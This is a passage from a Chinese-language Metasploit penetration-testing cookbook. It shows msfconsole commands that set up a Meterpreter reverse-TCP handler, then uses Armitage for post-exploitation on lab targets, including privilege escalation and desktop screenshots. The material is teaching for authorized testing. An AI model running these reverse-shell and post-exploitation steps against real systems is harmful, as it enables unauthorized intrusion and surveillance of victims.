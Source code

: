 让我们设置一个多处理程序，并利用客户端漏洞攻击目标。

```
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > exploit
[-] Handler failed to bind to 192.168.56.101:15263
[-] Handler failed to bind to 0.0.0.0:15263
[-] Exploit exception: The address is already in use (0.0.0.0:15263).
[*] Exploit completed, but no session was created. 
```

您可以看到，利用命令抛出了一个错误，即无法在`192.168.56.101:15263`上绑定反向处理程序。这是因为我们在攻击 Windows XP 目标时已经在此端口上建立了反向连接。因此，我们将不得不更改端口号并再次使用利用命令。

```
msf exploit(handler) > set LPORT 1234
LPORT => 1234
msf exploit(handler) > exploit
[*] Started reverse handler on 192.168.56.101:1234
[*] Starting the payload handler... 
```

现在，一旦客户端利用成功执行，我们将建立一个反向连接，并且我们将对我们的 2008 服务器目标进行攻击。

这里需要注意的重要一点是，不同的目标有不同的标签页。我们可以通过在标签之间切换轻松地与任何受损的目标进行交互：

![工作原理...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/mtspl-pentest-cb/img/7423_09_08.jpg)

这是 Armitage 的另一个重要功能，可以简化渗透测试的过程。当我们处理网络中的多个目标时，这可能非常有益。

# 使用 Armitage 进行后渗透

在上一个示例中，我们看到了 Armitage 在处理多个目标时的有用性。一旦目标被攻击，我们的下一步将是执行各种后渗透活动。让我们看看 Armitage 在后渗透阶段也可以派上用场。

## 做好准备

我们将分析我们攻击的 Windows XP 目标，并看看我们如何在其上执行几个后渗透活动。

## 如何做...

一旦目标被攻击，我们可以通过右键单击其图像来跟随几个 meterpreter 选项。我们可以执行一些常用的后渗透操作，例如访问、交互和枢纽。我们只需点击几下就可以执行几个操作。让我们执行后渗透的第一个和最重要的阶段——**提权**。我们可以通过右键单击目标图像并导航到**Meterpreter** | **Access** | **Escalate privileges**来找到此选项。另一个有趣的后渗透活动是**screenshot**，可以通过**Meterpreter** | **Explore** | **Screenshot**浏览。目标桌面的屏幕截图将显示在一个新标签中，您可以随时刷新。以下屏幕截图演示了这一点：

![如何做...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/mtspl-pentest-cb/img/7423_09_09.jpg)

## 工作原理...

您可以看到屏幕截图显示在一个新标签中，底部有两个按钮。**刷新**按钮将显示新的屏幕截图，而**观看**按钮将在每 10 秒后刷新屏幕截图。
